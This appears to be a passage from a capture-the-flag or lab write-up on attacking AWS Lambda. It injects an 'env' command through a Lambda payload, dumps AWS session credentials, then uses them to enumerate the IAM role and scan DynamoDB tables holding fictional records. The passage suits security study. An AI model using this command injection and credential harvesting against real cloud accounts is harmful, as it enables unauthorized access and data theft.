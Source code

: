 This works. It is very common that Lambda functions often configured with IAM Roles that has excessive privileges. Let's enumerate credentials. Reading [docs](https://docs.aws.amazon.com/lambda/latest/dg/configuration-envvars.html#configuration-envvars-runtime) reveals that the runtime environment has these credentials configured. 

```bash
aws lambda invoke --function-name StatusChecker --payload '{"command":"env"}' output.json
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
```

```bash
cat output.json 
{"stdout":"AWS_SESSION_TOKEN=IQoJb...IUow==\nAWS_SECRET_ACCESS_KEY=jfBUnf/HdT21hT4HYKUEZFmB1ZqnuBu9igE/9X6c\n\nAWS_ACCESS_KEY_ID=ASIA4NF5TOKMVWDBNYNH\n...","stderr":"","error":null}
```

> Note: Output cleaned for better view

Configure credentials and enumerate the privileges using `weirdAAL`. 

```bash
aws sts get-caller-identity
{
    "UserId": "AROA4NF5TOKMQVMP3IJSS:StatusChecker",
    "Account": "852948644505",
    "Arn": "arn:aws:sts::852948644505:assumed-role/LambdaExecutionRole/StatusChecker"
}
```

It has observed that the above role can interact with DynamoDB service. Let's list the tables. 

```bash
aws dynamodb list-tables
{
    "TableNames": [
        "Records",
        "airflow"
    ]
}
```

We see 2 tables. View the info of `Records`. 

```bash
aws dynamodb scan --table-name Records
{
    "Items": [
        {
            "id": {
                "S": "2"
            },
            "name": {
                "S": "Oliveira aka Tokyo"
            }
        },
        {
            "id": {
                "S": "1"
            },
            "name": {
                "S": "Sergio aka The Professor"
            }
        },
        {
            "id": {
                "S": "5"
```